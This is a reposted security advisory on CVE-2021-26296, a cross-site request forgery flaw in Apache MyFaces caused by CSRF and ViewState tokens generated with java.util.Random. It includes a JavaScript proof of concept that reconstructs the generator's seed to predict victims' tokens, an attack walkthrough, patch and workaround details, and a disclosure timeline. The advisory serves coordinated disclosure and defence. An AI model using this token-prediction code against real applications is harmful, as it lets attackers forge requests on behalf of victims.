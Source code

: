 ```yaml
---
layout: post
title: Apache MyFaces 2.x Cross Site Request Forgery
date: 2021-02-22 02:27 +0300
categories: [Exploits, Cross-Site Request Forgery (CSRF)]
tags: [exploits]
---
```








![](../../../assets/img/Exploits/ApacheM.png)

There is a cross-site request forgery vulnerability present in Apache MyFaces versions 2.2.13 and earlier, 2.3.7 and earlier, 2.3-next-M4 and earlier, as well as 2.1 and earlier.

  

```
MD5 | a8e80747410cdf24bd08eed09d1cb041
```

```perl
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    ~                Ceritude Securiy Advisory - CSA-2021-001                   ~
    ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~
     PRODUCT          : Apache MyFaces
     VENDOR           : The Apache Software Foundation
     SEVERITY         : High
     AFFECTED VERSION : <=2.2.13, <=2.3.7, <=2.3-next-M4, <=2.1 branches
     IDENTIFIERS      : CVE-2021-26296
     PATCH VERSION    : 2.2.14, 2.3.8, 2.3-next-M5, 3.0.0
     FOUND BY         : Wolfgang Ettlinger, Certitude Lab
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    
    Introduction
    ------------
    
    Apache MyFaces is an open-source implementation of JSF. During a quick
    evaluation, Certitude found that the default CSRF protection of Apache MyFaces
    was insufficient as the CSRF tokens the framework generates can be guessed by
    an attacker.
    
    Moreover, the patch provided by the Apache MyFaces maintainers affects the way
    channel tokens for websocket communication are generated. It is unclear,
    whether this change fixes a vulnerability.
    
    Vulnerability Overview
    ----------------------
    
    Applications that employ the MyFaces JSF framework transmit a parameter
    "javax.faces.ViewState" with every state-modifying request. Though not
    intended for CSRF protection, in the default configuration this parameter
    prevents trivial attacks, as it is sufficiently long and tied to a single
    session.
    
    However, by default, this value is generated using the insecure random number
    generator `java.util.Random`. An attacker can therefore obtain a ViewState
    parameter from the application and, based on this value, predict the random
    part of ViewState parameters subsequently issued to other users. Besides the
    random string, the ViewState parameter contains a sequence number. As the
    initial value of the per-session sequence counter is 1, an attacker can very
    easily guess this value.
    
    As the ViewState parameter is the sole CSRF protection, knowledge of this
    value allows an attacker to conduct CSRF attacks.
    
    When Apache MyFaces is used in client-side saving mode, the ViewState
    parameter is insufficient to protect against CSRF. Instead, pages that require
    protection against CSRF can be marked as "protected-pages". For these pages,
    Apache MyFaces requires CSRF token for each request ("javax.faces.Token"). By
    default, the CSRF token too is generated using `java.util.Random`, thus
    allowing an attacker to bypass the CSRF protection.
    
    NOTE: Besides the ViewState parameter and the CSRF token, Apache MyFaces also
    introduced a cryptographically secure random number generator for the
    websocket channel token. Certitude has not verified if this change fixes a
    vulnerability.
    
    Proof of Concept
    ----------------
    
    By default, the class
    `org.apache.myfaces.application.viewstate.RandomKeyFactory` is used to
    generate ViewState parameter values. This class uses the method
    `java.util.Random#nextBytes` as well as a per-session counter value to
    generate ViewState strings.
    
    The following JavaScript snippet demonstrates the generation of the random
    part of a ViewState value based on the random part of a previously issued
    ViewState parameter:
    
    ``` {.javascript}
    const multiplier = 0x5DEECE66Dn;
    const addend = 0xBn;
    const mask = (1n << 48n) - 1n;
    
    const unbyte = (bytes, offset) => BigInt(
        Array.from(bytes.slice(offset, offset + 4))
        .map((b, i) => b << (8 * i))
        .reduce((a, b) => a + b));
    
    const longify = n => integer(n, 8n);
    const intify = n => integer(n, 4n);
    const byteify = n => integer(n, 1n);
    
    function integer(n, len) {
        const bits = len * 8n;
        const hspan = 1n << (bits - 1n);
        return ((n + hspan) % (2n * hspan)) - hspan;
    }
    
    const hexToByteArray = s => (new Uint8Array(s.length / 2)
        .map((_, i) => (
            parseInt(s.charAt(2 * i), 16) << 4 |
            parseInt(s.charAt(2 * i + 1), 16))));
    
    const byteArrayToHex = b => (Array.from(b)
        .map(x => (((x + 0x100).toString(16)).substr(-2)))
        .reduce((a, b) => a + b))
        .toUpperCase();
    
    // based on https://github.com/fta2012/ReplicatedRandom/blob/master/ReplicatedRandom.java
    function replicatedRandom(bytes) {
        let seed = 0;
    
        replicateState(
            unbyte(bytes, bytes.length - 8), 32n,
            unbyte(bytes, bytes.length - 4), 32n);
    
        return nextBytes(bytes.length);
    
        function replicateState(nextN, n, nextM, m) {
            const upperMOf48Mask = ((1n << m) - 1n) << (48n - m);
            const oldSeedUpperN = (nextN << (48n - n)) & mask;
            const newSeedUpperM = (nextM << (48n - m)) & mask;
    
            let possibilityCount = 0;
    
            for (let oldSeed = oldSeedUpperN;
                    oldSeed <= (oldSeedUpperN | ((1n << (48n - n)) - 1n));
                    oldSeed++) {
                const newSeed = longify(
                    longify(oldSeed * multiplier + addend) & mask);
    
                if ((newSeed & upperMOf48Mask) == newSeedUpperM) {
                    possibilityCount++;
                    seed = newSeed;
                }
            }
    
            if (possibilityCount != 1) throw new Error('replicateState failed');
        }
    
        function next(bits) {
            seed = longify(longify(seed * multiplier + addend) & mask);
            return intify(seed >> (48n - bits));
        }
    
        function nextBytes(count) {
            const res = new Int8Array(count);
    
            for (let i = 0; i < count; ) {
                let rnd = next(32n);
                for (let n = Math.min(count - i, 4); n > 0; n--) {
                    res[i++] = parseInt(byteify(rnd));
                    rnd >>= 8n;
                }
            }
    
            return res;
        }
    }
    ```
    
    An attacker can exploit this issue as follows:
    
    1.  An attacker lures an authenticated victim to an attacker-controlled
        website.
    2.  As the victim opens the website, the attacker requests a ViewState value
        from the application.
    3.  The exploit script opens the target JSF page e.g. in an iframe. For this
        page, the vulnerable application generates a new random ViewState value.
    4.  The attacker now predicts a number of the random strings based on the
        ViewState value received in step 2. As the victim's ViewState value is
        generated just after the attacker's ViewState value, it is very likely,
        that the victim's ViewState value is among the generated ones.
    5.  The exploit script sends several CSRF requests containing combinations of
        predicted random strings and sequence numbers. If guessed correctly, the
        vulnerable application accepts the attacker's request.
    
    A similar approach is possible to attack protected pages. Unlike the ViewState
    values, the CSRF token generated, however, do not contain a sequence counter.
    
    Resolution
    ----------
    
    The Apache MyFaces maintainers have released a patch that addresses the
    identified issue. Certitude recommends affected organizations to immediately
    upgrade to version 2.2.14, 2.3.8, 2.3-next-M5 or 3.0.0. If an upgrade to the
    latest version is not possible, the Apache MyFaces maintainers recommend
    setting the following settings to "secureRandom":
    
    -   org.apache.myfaces.RANDOM_KEY_IN_VIEW_STATE_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_CSRF_SESSION_TOKEN
    -   org.apache.myfaces.RANDOM_KEY_IN_WEBSOCKET_SESSION_TOKEN
    
    Note that the patch introduces changes in the way websocket channel tokens are
    generated. Certitude therefore recommends applying the patch or workaround to
    all applications that use Apache MyFaces, even if CSRF attacks are of no
    concern.
    
    Timeline
    --------
    
      ---------------------------------------------------------------------------
      Date         Text
      ------------ --------------------------------------------------------------
      2020-12-15   Sending encrypted vulnerability description and proof of
                   concept script to the Apache security team
    
      2020-12-15   Apache security team acknowledges receipt
    
      2020-12-28   Apache MyFaces team member requests proof of concept script
    
      2021-01-04   Asking for encrypted communication channel
    
      2021-01-04   Vendor provides PGP key
    
      2021-01-05   Sending encrypted proof of concept
    
      2021-01-07   Vendor requests more information about the PoC
    
      2021-01-08   Providing requested information
    
      2021-01-19   Coordination call with vendor
    
      2021-01-26   Coordination call with vendor
    
      2021-02-02   Coordination call with vendor, release of patches is imminent
    
      2021-02-09   Coordination call with vendor, 3 of 4 patches have been
                   released
    
      2021-02-15   Coordination call with vendor, last patch release is in
                   progress
    
      2021-02-19   Public release of the advisory
      ---------------------------------------------------------------------------
    
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
                                               (c) 2021 Certitude Consulting GmbH
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
    

<br>        

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)